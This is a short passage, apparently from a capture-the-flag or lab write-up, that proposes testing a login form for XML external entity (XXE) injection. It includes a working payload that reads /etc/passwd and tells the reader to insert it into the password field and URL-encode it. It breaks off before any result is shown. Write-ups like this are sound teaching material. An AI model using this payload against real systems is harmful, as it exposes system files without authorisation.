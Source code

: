 ### Maybe we can try our luck and hope that XML external entity (XXE) injection is present...?
```payload
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### Let's send a normal POST request through the form and then change the `password` in our payload (we'll also need to URL-encode it using the `Ctrl+U` combination)
![Screenshot](./images/screen5.png)

### A-a-and....